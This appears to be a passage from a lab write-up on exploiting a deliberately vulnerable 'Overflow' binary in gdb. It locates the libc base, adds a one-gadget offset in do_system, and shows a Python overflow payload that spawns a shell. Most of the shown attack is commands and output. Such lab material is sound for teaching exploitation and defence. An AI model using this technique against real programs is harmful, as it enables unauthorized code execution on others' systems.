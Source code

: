 ### Simple scenario to use offset
 Start program in gdb:
  > gdb -q Overflow

Add breakpoint to the start of the program. Once it reaches it:

> info proc mapping

Example:
> 0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so


Here we can see base addresses of libraries! Let's take first one about libc and add offset to it.

```shell
(gdb) x/10 0x7ffff79e4000+0x0004f322
0x7ffff7a33322 <do_system+1138>:	0x7f058b48	0x480039bb	0x4b6a3d8d	0x8d480016
0x7ffff7a33332 <do_system+1154>:	0xc7402474	0x39e2a105	0x00000000	0x9b05c700
0x7ffff7a33342 <do_system+1170>:	0x000039e2	0x48000000
(gdb)
```
If we compare these hex numbers to previous instructions what we found in radare2, they are a match.

Let's overflow with gadget address:
```shell
(gdb) r $(python -c 'print "A" * 56 + "\x22\x33\xa3\xf7\xff\x7f"' )
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/nicce/Desktop/Shellcode Lab/Overflow $(python -c 'print "A" * 56 + "\x22\x33\xa3\xf7\xff\x7f"' )
process 16576 is executing new program: /bin/dash
$ exit
[Inferior 1 (process 16576) exited normally]
(gdb)
```
Shell was spawned and exit was clean.

> -- What is the most complex r2 command? q - then you have to deal with real life /o\

